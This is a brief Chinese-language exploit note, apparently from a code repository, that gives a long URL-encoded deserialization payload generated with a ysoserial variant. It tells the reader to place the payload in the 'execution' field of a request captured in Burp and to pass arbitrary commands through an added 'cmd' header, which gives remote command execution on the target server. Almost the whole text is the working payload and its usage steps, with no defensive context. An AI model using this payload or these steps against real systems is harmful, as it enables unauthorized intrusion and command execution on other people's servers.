

使用ysoserial-managguogan-0.0.1-SNAPSHOT-all工具生成payload,

payload

```
54b514fb-f0b3-4707-9c65-d898cf293eb7_AAAAIgAAABAF8QF0A%2BYCooDCDkA%2BTrwgAAAABmFlczEyODMtYyzn8c8cVERqOIZZaTRglpjzYOCiA47HpJHp0b3%2F4jEBKodxl9iakgnttxIkUysHVT4sFDsumizRKAJ9JxovUd8Nl3Yb0CwrnxPNQ%2Biz8QZCKAC3tcayDuVfc3NDRymG4yRk6zjc7pWLeqKmof%2BJjTQ2ZaVKwtTnAeMPHWhLuauHF7WE11o1IZ9IMm8V%2FfmG9u9bHebTt2Urgryj%2FbcbjJ66BU92rsZjpvEsm3mwVDvrOswVmnU7NR7b9pqHi6OfEGBy5XXJZ9jeNR7esHx5RHCcv5AQKycfSpDQJyi9yV09YEwI69q7iYpvIrWqZOqw%2B2yKOnUuHAV5wse%2BfpEAHPHud%2ByS9RJO%2BeY0HWIt%2BMidYAPPzzaAVD5XMw1nvlhQIQ5qTqZyTkAVoNUcuow%2BKmwoP00L%2FaknWQjrn5S61UWk4M2KLQI9VoQCKwTfITw5G5%2Ffoq1bmx1h4tq4naKw4rQFf0VgGhoeWJqrkcSGu8qbRzI%2BluA%2FRpJTF12BBTgvXDgKfJGffPlifqAS3VtuVzHePgP%2Fa9eiI0%2FCQciaBVh2OMrlJ6mdBW%2Bbo5LpPwk1T17ONSb6nk0NyE0inTqjqI5GmKb%2FcQ9zHxBDYyzNwqRQ8FW6%2FJcpdDRAv8dT2f1ZjMoFIrOEsQoePDjKF6PVb%2BasSPirBBwzYV%2BMRUeD8dbzbbl4ZXAvFnPiWG3uetJvazEwlzwTjzxalrNZN0pZIhli1s8vv6M%2F9oQWtNPRbFLBo6qkQRqZaWVQMDI9jqXNDVk57YcRiO%2Bz4%2FPli8JqKwLlnpQZhxWX3%2B0wGGBWgJwXRc14z3ia0oF54OlOuABJbYWFOJPLkfl86NXsU0c8nMGH6254SpSO0w7lXjJnQHS3GwyFInmfp5LhcEFOFQLGVezQ1n%2BNwRXHXObM5Mxtv%2Bfmy2uLtwiLveX3o1OI8LLZts%2FoZLaMQ%2BNSGLqL%2BoqO97W7EDQetyQRC2PYdgeAlN6vHDQlSr2lfv1gwOkpNgplMfMsm1fMyoC4HndsHga90hpvQrOBooumZBXdAKyCy1aaKnEQblcdWcyBDgi5gfBs%2BIQn1aI%2Fj0dO1F620JbFN5MlTE0vZ6JYQZd6QkS%2BAFt3X5dVj%2FDUkO0mzXP1MzFt4Fk27bxw4ugv7v9n6sh66aRNF8Kp3PdFs1j3wqsfBioNA2Vg0OMJfOMlV%2BOrHJzNOQXBJEwV2phd4u08S2qLvYWJ%2BhZTLvpgEfCz9Zh7tUNJzTtFHGvTwvq0hChKLTRvUxq2Pozs4bwiZPyuZvc5KVb%2BOeFdv52FCi9ag9dDtaInhMBif9XVBBnU%2BujvKpF07Jet6%2FYj%2Fpj2qGYZH0R4mpH50bewq33Z10PZ2PgWmromftI%2FPBewTjpDLbkHBEm2i0m1SyuMhxw29pg3gdh8SsrgMWboOJi0nbwHX8Uvg6gVzmyixIYuzUzTnsKiWkEkMEHFZ5CtD%2BiUehQbJrsNdUYrQWXmwD9upRxBeul6BnRtj4R0Nlnzmzflkrq18Q4uTRgUAk%2B7HwpNCTNE4fNSkQaiIsC7Hi%2FP6Y1ADnPmSquhyfFHfu8Z7JKUxTZqUmkwAORmw34ylzhOQIbtKcBlCsYSnhvbOzuoV%2BPt3XsLfJWWrug2eM%2FnmPs%2FJzdpYkBI%2BMj7QqM1RIwAtajiyWuR5UrU9yALHL5G%2FZ4EV1TrnC9sG%2FJGzvM0hTuZ0qpnfk85d6YSs0EG3WPxsY6Jvfi9cPxmrr0docDWUTkoHk%2B8M3OJZAQwieTJ6i2tw6PC%2FcOEffyXoMeVkSW1PZjBZuZCipqnHJc8qx3lQ7ujUoCFHDPchk%2FqVglIZIIFgV4KoO3Cndga4CRDUBZQnWi9VREG3GmyA%2BJbwk6%2FVjCFNG8qvXbO4CcpU7Xtz1LJ0EVX9%2FgSZdePtZRwkZQJswJnLyzgOPsBK0IbeH4%2BqKdjSmKyifVd4lUZUNuoUjy%2F7agZWzJNnxIuzCDPetRnX7WNhbU7lCUEh7n%2Fa1GItgCFQz8ghhN8PrbsdM7Jx8L8%2F7MUTNK5ggX1O4qjn0BlnMdtehHUHP63PqT%2BKpI8QRrADGblM4xko1RSdOq1hPGo2jhPWxhE7h%2BUVNmPyD%2FmQHOeLrjfS4oKAzwoLFmshh0VKSpkcDcp32ejx5F5HTK2ofonEVA3pf2%2BEcmtFJw2fRUbGHh2u4CYT8S%2BOg5pe8Ghx5vRsIS%2FwqmJhYsxg6FRguhBVDeknx5knsxTvUCRtGYNdrNQyyvdFKYcbyHaAJ5JUHeuZWFzOi4WAeDTo72fcIG5sbohinxOFWE2z%2Bjgvpox2YgJdeo0hHNdZtG1FZnwdDCNR4LGJf5qSZPihW9aUBwRW42SNk%2BbSdBGVTlQ8X4JDYWhIG1F1hLvSgomXLmIiFMMKUEB3Y80Wex4QXvR1Og8pQn6hHYLygFYbO417jt05aVE%2BnweRxCg8LgY1hGarI5AjHPP8G%2FWk1JYVVJSHxBvE1cnb0o19AR5x4DJOPcIPjp01QmwkT6S3qhv9w3%2FbUK%2Fub8%2F83c3YIYakGoVsUPUI4reLYnUVXWE9ih3B93KgrgPkOfdcvIQOUl%2Fxt6%2FnWgxWK%2BU4KyKj5uYLDZEENdh%2BTKLMQtBXf0ngROgPlanJ58yN2ileJLWesTqVqtEIXaZ%2B2nu6czvUO2q%2FFMx%2BOy0nhRhG5djma5aZuNBIHh2TAWrz5dX9uII7snf%2FscZRmlSQHCSyw%2BXN2dJz8GiNStwN3kz2VpwCSnvv0%2FJ%2FqcHwGqwQqG%2Bxlom5yTKonZFwOE%3D
```
复制生成的payload,替换bp抓到的包中的execution字段内容
在请求头中加入cmd字段，字段内容为需要执行的命令，然后执行


